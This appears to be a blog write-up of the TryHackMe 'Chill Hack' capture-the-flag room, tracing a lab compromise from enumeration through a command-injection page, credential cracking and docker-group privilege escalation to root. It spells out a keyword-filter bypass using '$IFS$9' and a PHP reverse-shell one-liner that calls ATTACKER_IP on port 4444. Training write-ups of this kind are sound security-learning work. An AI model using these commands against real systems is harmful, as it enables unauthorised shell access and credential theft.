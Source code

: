 ```yaml
---
layout: post
title: THM Chill Hack writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<h1>ENUMERATION:</h1>
<hr>
<p>Start by enumerating  ports with an NMAP Scan.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80</p>
<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed</p>
<img src="/img/chillhack/1.nmap.png">

<p>login with “anonymous:anonymous” </p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders. Let’s try and enumerate the sub directories. </p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s run dirbuster first.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says command. Let’s try and issue some commands. Since we know from NMAP this is probably a Liux box let’s try some bash commands</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and get a use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one on the list</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work</p>
<img src="/img/chillhack/12.burp.png">

<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server) for white spaces. I’m assuming there’s an input validation that has a hard coded list of black listed keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>And we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive.</p>
<img src="/img/chillhack/15.first-shell.png">

<p>Using this python 3 command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images that I downloaded on to my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a mysql user name and password. Let’s note these and see if we can connect to the mysql server. </p>
<img src="/img/chillhack/18.mysql-creds.png/">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.. </p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password</p>
<img src="/img/chillhack/28.base64-d.png">


<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">

<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




